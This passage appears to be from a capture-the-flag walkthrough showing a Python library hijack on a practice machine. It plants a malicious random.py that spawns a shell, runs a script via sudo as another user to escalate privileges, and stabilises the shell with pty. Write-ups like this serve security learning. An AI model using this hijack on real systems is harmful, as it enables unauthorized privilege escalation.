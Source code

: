 ##### Command:
> python3.6 -c ‘import sys; print(sys.path)’

```
alice@wonderland:~$ python3.6 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

We notice something strange. The first place python searches for requested modules is a blank space - this means python will search the user’s current directory before searching any of the predefined directories. Our course of action is therefore to write a Python file called ```random.py```, and store it in the directory ```/home/alice```. In this file, we will launch a shell. Due to the python file running as the ```rabbit``` user, this shell will launch as ```rabbit```! Because Python will check the current directory before the true location of ```random.py```, ```/usr/lib/python3.6```, our malicious ```random.py``` will run instead. This type of attack is known as a [Python Library Hijack](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

##### Command:
> nano random.py

In the malicious ```random.py``` file, we insert the following code:
{% highlight python %}
import os
os.system("/bin/sh")
{% endhighlight %}

The current directory now looks like this:
```
alice@wonderland:~$ ls
random.py  root.txt  walrus_and_the_carpenter.py
```

We now run the file ```walrus_and_the_carpenter.py``` as the ```rabbit``` user.

##### Command:
> sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
$ whoami
rabbit
```

This attack worked! The python file used our malicious ```random.py``` module, and started a ```rabbit``` shell. We now use the python ```pty``` module to gain a more stable shell.

##### Command:
> python3.6 -c 'import pty; pty.spawn("/bin/bash")'

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
$ whoami
rabbit
$ python3.6 -c 'import pty; pty.spawn("/bin/bash")'               
rabbit@wonderland:~$
```
